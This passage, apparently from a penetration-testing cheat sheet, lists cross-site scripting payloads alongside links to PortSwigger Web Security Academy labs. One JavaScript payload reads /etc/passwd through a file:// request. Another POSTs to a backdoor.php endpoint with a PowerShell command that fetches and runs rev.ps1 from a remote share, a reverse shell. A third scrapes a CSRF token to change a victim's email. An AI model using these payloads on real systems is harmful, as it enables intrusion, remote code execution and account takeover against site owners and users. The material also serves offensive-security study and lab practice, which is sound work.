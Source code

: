 ```javascript
x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText);};x.open("GET","file:///etc/passwd");x.send();
```


#### XSS to CSRF

* [portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

If the endpoint is accessible only from localhost:

```javascript
var xhr;
if (window.XMLHttpRequest) {
	xhr = new XMLHttpRequest();
} else {
	xhr = new ActiveXObject("Microsoft.XMLHTTP");
}
xhr.open("POST", "/backdoor.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("cmd=powershell -nop -exec bypass -f  \\\\10.10.15.123\\share\\rev.ps1");
```

With capturing CSRF token first:

```javascript
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('GET', '/email', true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@example.com')
};
```




## Web Security Academy

* [All learning materials - detailed / Web Security Academy](https://portswigger.net/web-security/all-materials/detailed)
* [All labs / Web Security Academy](https://portswigger.net/web-security/all-labs)
* [SQL injection cheat sheet / Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Cross-Site Scripting (XSS) Cheat Sheet / Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)




## Upgrade Burp
